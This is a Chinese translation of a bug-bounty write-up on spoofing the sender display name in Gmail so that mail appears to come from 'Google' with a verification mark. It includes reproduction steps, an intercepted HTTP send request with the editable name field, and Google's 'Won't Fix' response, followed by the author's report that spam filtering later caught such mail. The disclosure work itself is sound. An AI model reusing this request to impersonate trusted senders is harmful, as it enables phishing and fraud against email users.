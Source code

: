 # 绕过授权— Gmail

> 原文：<https://infosecwriteups.com/authorization-bypass-gmail-2949af041fb?source=collection_archive---------0----------------------->

![](img/49027b03751b9531317d055cff65f713.png)

*   *关于漏洞*

Gmail 上最简单但最棘手的案例，攻击者可以通过发送电子邮件**冒充知名品牌和个人**来欺骗目标。不要再绕弯子了，让我们进入正题吧。

## Gmail 授权

在创建谷歌账户时，Gmail 绝不会要求你证明你的身份。它要求你证明你是一个人，而不是一个机器人。我们可以编辑我们的个人信息&即使我们可以编辑我们的信息，仍然有一些限制。

**这些都是谷歌自己实施的，用来防御侵犯&滥用。↓↓**

```
*1\. Some characters aren’t allowed.* 
***eg: emoji, tick, (, |, {, <, :), #,%,$ etc.****2\. The name which does not seem to meet Google’s policy is restricted.**3\. Input limits**4\. etc.*Along with further restrictions, **you can’t create an account** exactly named **“Google”**
```

## 校样:

![](img/62ed8cfe0e33f7a20656cac85d79b885.png)

Gmail 禁止用户这样做的原因很清楚。否则，任何人都可以滥用它&把它变成影响个人、公司、机构等的漏洞。

## 案例:

> 攻击者可以绕过其中的一些限制&可以以看得见的方式向任何拥有 Gmail 帐户的个人发送电子邮件。
> 
> **绕过谷歌的这一限制，攻击者可以准确地将他们的名字改为“谷歌”,并加上一个“验证标记”,还有一个真正的网址。**

## 概念证明

![](img/205ca15eaeaa4458c74d61640f00b838.png)

更多细节等着你，不要跳过

## **再现步骤:**

```
*** 1\. Open Gmail from the web browser.**** 2\. Pick up the target.**** 3\. Intercept the request while sending the mail**** 4\. Edit* the **"NAME"** *& send the request***Edited portion of request:**POST /sync/u/3/i/s?hl=en&c=13 HTTP/1.1
Host: mail.google.com
Cookie: COMPASS=XXXX;
3PSID=XXX;
t-GMAIL_SCH=XXXX;
User-Agent: XXXX;
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 743
X-Google-Btd: 1
X-Gmail-Btai: {"3":{"6":0,"10":1,"13":1,"15":0,"16":1,"17":1,"18":0,"19":1,"22":1,"23":1,"24":1,"25":1,"26":1,"27":1,"28":1,"29":0,"30":1,"31":1,"32":1,"33":1,"34":1,"35":0,"36":1,"37":"en","38":"Mozilla/5.0 (X11; Linux x86_64; rv:90.0) Gecko/20100101 Firefox/90.0","39":1,"40":0,"41":25,"43":0,"44":1,"45":0,"46":1,"47":1,"48":1,"49":1,"50":1,"52":1,"53":1,"54":0,"55":1,"56":1,"57":0,"58":0,"60":0,"61":1,"62":0,"63":1,"64":0,"66":0,"67":0,"68":1,"69":1,"70":0,"71":1,"72":0},"5":"e00e0efee9","7":25,"8":"gmail.pinto-server_20211227.06_p0","9":1,"10":5,"11":"","12":19800000,"13":"+05:30","14":1,"16":418514969,"17":"","18":"","19":"1641437521701","21":"1370"}
X-Framework-Xsrf-Token: AKwhgQq1WH-n-MYenPLNA8YOCdUuhO2D8A:1641437195302
Origin: [https://mail.google.com](https://mail.google.com)
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Referer: [https://mail.google.com/mail/u/3/](https://mail.google.com/mail/u/3/)
Te: trailers
Connection: close
{"1":{"3":2},"2":{"1":[{"1":"43","2":{"1":"thread-a:r-3342554841964375422","2":{"14":{"1":{"1":"msg-a:r-4547215635208082171","2":{"1":1,"2":"SENDER-MAIL-ID@gmail.com","3":**"SENDER-NAME"**,"10":"SENDER-MAIL-ID@gmail.com"},"3":[{"1":1,"2":"TARGET-MAIL-ID@gmail.com@gmail.com"}],"7":"1640181726619","8":"","9":{"2":[{"1":0,"2":"<div dir=\"ltr\">Testing<br></div>"}],"7":1},"11":["^all","^pfg","^f_bt","^f_btns","^f_cl","^a"],"18":"1640181726619","36":{"6":0},"37":{"4":0},"42":0,"43":{"1":0,"2":0,"3":7,"4":0},"52":"s:12fc9f890bfae0e|#msg-a:r-4547215635208082171|0"},"3":1}}}}]},"4":{"1":"1640181719997","2":1,"3":"1640181726641","4":1,"5":200},"5":2}** *5\. Done*
```

## 影响

> ****

```
*1\. Anyone can exploit this vulnerability without any complexity.**2\. Google can’t detect the changes made while exploiting**3\. The attacker can navigate the individuals using Gmail**(utilizing the trustworthiness of Google)**4\. The complete abusement**5\. Likewise, It’s possible to perform any kind of spam attack**(highlighting other companies)*
```

> 在欺诈者滥用这个案例之前，我向谷歌详细描述了当时的情况。

![](img/097667c3da3d6c310df1491d15d19547.png)

> ***报道日期:2021 年 12 月 22 日***
> 
> ***分流(初始分流):2021 年 12 月 23 日***
> 
> ***分配(内部分流):2021 年 12 月 28 日***

![](img/e51c797fef5d299dbbbf230bf10c5bb5.png)

> **当前状态:**
> 
> **关闭日期:2022 年 1 月 5 日**

![](img/518d7fbbe07e68e2cff65310e464d2f2.png)

```
**Priority: P3****Severity: S4****Status: Won't Fix** 
```

## 中间发生了什么？为什么我被理所应当的谷歌名人堂拒之门外？

![](img/0d41a1ca83f425295230bbab0afd0b56.png)

> *运气又被吸了！*

如果情况变得一致，谷歌会奖励我。报案后，我试图引发一件史诗般的事情。所以，我尝试了不同的方法。所以，最初，没有威慑。我做了更多的测试&行为很奇怪。然后它被标记为 ***。*** *简单来说，被 Gmail 的垃圾邮件过滤器捕获的破坏性邮件* ***【连续尝试后】***

![](img/6cd0afb6fdc9a9524c71df008009ef72.png)

> ***一切都在一秒钟内发生变化。我更新了谷歌的观点。*** 没必要“求赏金”

**~ Gmail 是安全的~**

![](img/3d8b186bbb52137a9eb8732fe963b178.png)

任务完成

我猜你喜欢这篇报道。我始终相信我最好的还在后面！并且不要无视与我接通 **推特**@[7h 3 H4 ckv 157](https://twitter.com/7h3h4ckv157)

# 注意:

> 你想知道它以前是怎么出现的吗？然后看看我上传的视频。

**我的第一次概念验证(在 Gmail 过滤器检测之前)**